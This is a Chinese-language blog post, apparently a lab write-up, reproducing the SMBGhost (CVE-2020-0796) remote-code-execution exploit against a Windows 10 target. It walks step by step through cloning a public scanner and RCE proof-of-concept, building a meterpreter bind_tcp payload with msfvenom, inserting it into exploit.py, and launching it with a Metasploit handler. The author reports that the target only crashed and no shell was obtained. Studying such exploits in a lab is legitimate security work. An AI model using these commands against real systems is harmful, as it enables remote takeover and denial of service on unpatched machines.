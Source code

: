 ```yaml
---
title: 永恒之黑漏洞复现
date: 2023-04-21 10:10:13
categories: 技术
tags:
    - 网络安全
---
```


### 惭愧声明

稍微了解一点就会知道，永恒之黑是可以拿到shell的，但是因为技术能力的限制，到现在复现漏洞我也没有拿到shell，只会让靶机蓝屏重启。先把博客更了，等后续搞明白了，再来更新。

### 准备工作

首先，准备一台kali和一台运行1903版本或者1909版本的windows10。

<!-- more -->

关闭windows10的防火墙的“病毒和威胁防护设置”的实时保护功能。

在kali上准备待会要用到的工具。

1. 扫描漏洞脚本

```git
  git clone https://github.com/ollypwn/SMBGhost.git
```

有人说这个脚本不准确，有时候检测超时也会报漏洞可利用，这个脚本也不太重要，至少对于这个实验来说。

2. EXP攻击脚本

```git
  git clone https://github.com/chompie1337/SMBGhost_RCE_PoC.git
```

### 扫描漏洞

下载好漏洞扫描脚本后进入该目录，执行：

```python
  python3 scanner.py 192.168.20.135
```

"192.168.20.135"更换为自己靶机的IP。下面是效果图，显示"Vulnerable"，易受攻击的。

![漏洞扫描](../_posts/CVE-2020-0796/1.png)

### 准备payload

进入使用EXP脚本的SMBGhost_RCE_PoC目录，执行：

```bash
  msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=4444 -f py -o payload
```

执行之后会在SMBGhost_RCE_PoC目录下生成payload文件。接下来很重要的步骤：

1. 打开payload。

2. 打开exploit.py。

3. 将payload中“buf”字段全部替换为“USER_PAYLOAD”字段。

4. 复制替换完成的payload文件内容。

5. 粘贴到（覆盖）exploit.py文件USER_PAYLOAD区域。

![修改payload](../_posts/CVE-2020-0796/2.png)

### 开始攻击

1. 启动“美少妇”。

2. 使用模块。

3. 设置有效载荷和相关参数。

依次执行以下命令：

```bash
  msfconsole -q
  use exploit/multi/handler
  set payload windows/x64/meterpreter/bind_tcp
  set lport 4444
  set rhost 192.168.20.135
  run
```

再打开一个终端，进入SMBGhost_RCE_PoC目录，运行：

```bash
  python3 exploit.py -ip 192.168.20.135
```

![运行 exploit.py](./CVE-2020-0796/4.png)

出现这步后按下回车。

然后回到win10，发现win10蓝屏正在重启。

![win10重启](./CVE-2020-0796/5.png)

如果完成的彻底，美少妇终端会弹出meterpreter，但是很遗憾，我没有拿到靶机的shell。

![拿到shell](./CVE-2020-0796/6.png)